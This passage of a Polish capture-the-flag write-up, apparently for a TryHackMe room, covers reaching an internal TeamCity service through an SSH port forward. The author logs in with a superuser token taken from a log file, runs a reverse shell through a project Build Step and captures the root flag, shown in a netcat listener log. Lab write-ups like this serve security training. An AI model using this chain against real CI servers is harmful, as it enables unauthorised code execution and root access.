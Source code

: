 6. Za pomocą przekierowania ```ssh``` poleceniem ```ssh -i id_rsa -L 4444:localhost:8111 sys-internal@<IP_atakowanej_maszyny>``` przekierowałem pracę "lokalnego hosta" atakowanej maszyny na stój lokalny host.
![Oops!…I_Did_It_Again](/screens/v_przekierowanie_ssh.png)

Następnie w przeglądarce ppisuję ```http://127.0.0.1:4444/``` i pojawia się możliwość logowania. Zauwarzam możliwość logowania za pomocą użytkownika ```superuser```, tam wykorzystuję znaleziony wcześniej ```token``` w pliku ```catalina.out``` w katalogu ```/TeamCity/log```.

    Uwaga: ten token będzie dla Ciebie inny i zmienia się przy każdym ponownym uruchomieniu komputera.

Następnie tworze nowy projetk. Po stworzeniu go szukam możliwości wykonania kodu, rozgladając się po ```stettings```, zamykając projekt i potwierając go z zakładki górnrj ```Projects``` znajduję poszukiwaną możliwość w zakładce bocznej ```Build Steps```. Dzieki narzędziu [revshells.com](https://www.revshells.com/) stworzyłem kod zwracający mi odwróconą powłokę z możliwością wejścia do katalogu ```root``` tam znajduje się flaga ```root.txt```.

[Loading...](/screens/v_okno_do_logowania_TC.png)
[cierpliwosci](/screens/v_TC_po_zalogowaniu.png)
[](/screens/v_reverseshell.png)
[](/screens/v_wykonanie_reverseshell.png)

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 8080             
listening on [any] 8080 ...
10.10.173.242: inverse host lookup failed: Unknown host
connect to [10.8.78.81] from (UNKNOWN) [10.10.173.242] 44018
# whoami
whoami
root
# cd /root/     
cd /root/
# ls
ls
root.txt
# cat root.txt
cat root.txt
THM{e8996faea46df09dba5676dd271c60bd}
#  
```

